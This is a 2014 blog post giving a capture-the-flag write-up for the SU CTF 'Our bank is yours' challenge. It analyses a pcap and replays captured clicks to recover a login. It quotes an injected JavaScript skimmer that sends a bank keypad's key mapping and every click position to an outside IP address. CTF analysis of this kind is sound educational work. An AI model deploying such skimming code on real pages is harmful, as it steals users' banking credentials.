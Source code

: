```yaml
---
id: 19
title: 'SU CTF 2014 &#8211; Our bank is yours write up'
date: 2014-09-28T20:54:36+00:00
author: mashhadimj
layout: post
guid: http://mjafar.me/blog/?p=19
permalink: /blog/:year/:month/our-bank-is-yours-write-up/
tag:
  - CTF Writeup
---
```

The police have arrested a cyber criminal but they don't have a good witness. Just a short capture of his network traffic is available. Is it helpful?

-------

A pcap network traffic log is attached. By opening it in wireshark you could see that an email is sent with a link to <a href="http://ctf.sharif.edu:45656/" target="_blank"> this page</a> that injects the following javascript code into the page.


```javascript
setTimeout("sendmap();",1000);
document.body.addEventListener("click",clickdone,false);
function sendmap(){
  var buttons=document.getElementsByClassName("keypadButtonStyle");
  var keymap="";
  for(var i=0;i<buttons.length;i++)
    keymap+=buttons[i].value;
  var xmlhttp=new XMLHttpRequest();
  xmlhttp.open("GET","http://95.211.102.232:8080/c.php?t=m&v="+keymap,false);
  xmlhttp.send();
}
function clickdone(e){
  var xPosition=e.clientX;
  var yPosition=e.clientY;
  var xmlhttp=new XMLHttpRequest();
  xmlhttp.open("GET","http://95.211.102.232:8080/c.php?t=c&v="+xPosition+","+yPosition,false);
  xmlhttp.send();
}
```

It first sends the mapping of keys to `http://95.211.102.232:8080/c.php` then on each click sends the x and y position of click to that page.

We used the following shell script to find all GET requests to the given address.
```bash
#!/bin/sh

touch bank-followstream.txt
END=$(tshark -r $1 -T fields -e tcp.stream | sort -n | tail -1)
for ((i=0;i<=END;i++)) do
     echo $i
     tshark -r $1 -qz follow,tcp,ascii,$i >> bank-followstream.txt
done

grep "GET /c.php" < bank-followstream.txt
```
Key mapping is `4    1    6    3    7    0    8    9    5    2   Backspace`. With a simple javascript code you can simulate clicks on the original page. After logging in the flag will appear.
This line of javascript (using jQuery) code may be helpful:
```javascript
$(document.elementFromPoint(x, y)).click();
```
